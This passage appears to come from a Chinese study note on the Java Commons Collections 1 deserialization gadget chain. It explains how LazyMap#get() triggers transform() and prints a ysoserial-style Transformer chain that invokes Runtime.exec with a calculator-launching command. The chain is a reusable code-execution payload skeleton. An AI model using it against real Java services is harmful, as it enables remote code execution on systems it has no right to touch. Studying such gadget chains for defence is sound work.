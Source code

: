 可以跟进看看，确实跳转到了`LazyMap#get()`。这里当`key`不在这个 Map 对象中，则会调用`transform()`，从而完成触发恶意代码

![Java安全漫谈-CC1篇-7](assets/Java安全漫谈-CC1篇-15.png)

## 其它
发现 ysoserial 中的`Transformer[]`数组最后增加了一个`ConstantTransformer(1)`，目的是为了清除报错信息

```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

Transformer transformerChain = new ChainedTransformer(transformers);

```
